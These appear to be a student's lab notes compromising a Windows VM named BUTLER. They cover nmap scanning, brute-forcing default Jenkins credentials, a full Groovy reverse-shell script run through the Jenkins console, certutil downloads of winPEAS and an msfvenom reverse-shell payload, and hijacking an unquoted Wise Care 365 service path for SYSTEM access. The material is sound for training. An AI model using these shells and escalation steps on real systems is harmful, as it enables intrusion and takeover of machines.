
```python
export TARGET_IP=192.168.254.137
export TARGET_MAC=00:0c:29:89:7d:a5
export TARGET_NETWORK=192.168.254.0/24
```

scanning
```python
sudo arp-scan -l  
```
192.168.254.137	00:0c:29:89:7d:a5	VMware, Inc.


nmap port disco
```python
sudo nmap -T4 -A -p- $TARGET_IP
```
PORT     STATE SERVICE
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown



Deep nmap on ports
```python
sudo nmap -A -T4 -p 135,139,445,8080,49664,49665,49666,49667,49668,49669,5040,7680 -v $TARGET_IP
```

```output
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8080/tcp open  http          Jetty 9.4.41.v20210516
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
|_http-server-header: Jetty(9.4.41.v20210516)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 00:0C:29:89:7D:A5 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-11-11T09:25:32
|_  start_date: N/A
| nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:89:7d:a5 (VMware)
| Names:
|   BUTLER<20>           Flags: <unique><active>
|   BUTLER<00>           Flags: <unique><active>
|_  WORKGROUP<00>        Flags: <group><active>
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 2h59m59s

TRACEROUTE
HOP RTT     ADDRESS
1   0.21 ms 192.168.254.137

```

Enum hostname
```python
nmblookup -A 192.168.254.137
```
```output
Looking up status of 192.168.254.137
	BUTLER          <20> -         M <ACTIVE> 
	BUTLER          <00> -         M <ACTIVE> 
	WORKGROUP       <00> - <GROUP> M <ACTIVE> 

	MAC Address = 00-0C-29-89-7D-A5
```

```python
burpesuite
```

Used intruder with usernames and passwords that are common 

jenkins:jenkins
worked
logged in
went to Groovy script console
used but wait to hit run until listener is up

https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
```python
String host="192.168.254.132";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


```python
nc -lvnp 1234
```

hit run on  groovy

now i have a shell   

on my kali with winpeas
```python
python3 -m http.server
```

cd to \Temp

pull down winPEAS from my python server
```powershell
certutil -urlcache -split -f "http://192.168.254.132:8000/winPEASx86.exe" winPEASx86.exe
```

run it
```python
.\winPEASx86.exe
```

```output
 WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected                                                    
    YOU CAN MODIFY THIS SERVICE: AllAccess
    File Permissions: Administrators [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\Wise\Wise Care 365 (Administrators [AllAccess])                                                                                                     
    In order to optimize system performance,Wise Care 365 will calculate your system startup time.

```

```python
msfvenom -p windows/x64/shell_reverse_tcp -f exe LHOST=192.168.254.132 LPORT=7777 > wise.exe   
```

```python
python3 -m http.server
```

```python
cd "C:\Program Files (x86)\Wise"
```

```python
certutil -urlcache -split -f "http://192.168.254.132:8000/wise.exe" Wise.exe
```

```python
nc -lvnp 7777
```

restart process to execute shell code
```python
sc stop WiseBootAssistant
```

```python
sc start WiseBootAssistant
```

boot System!

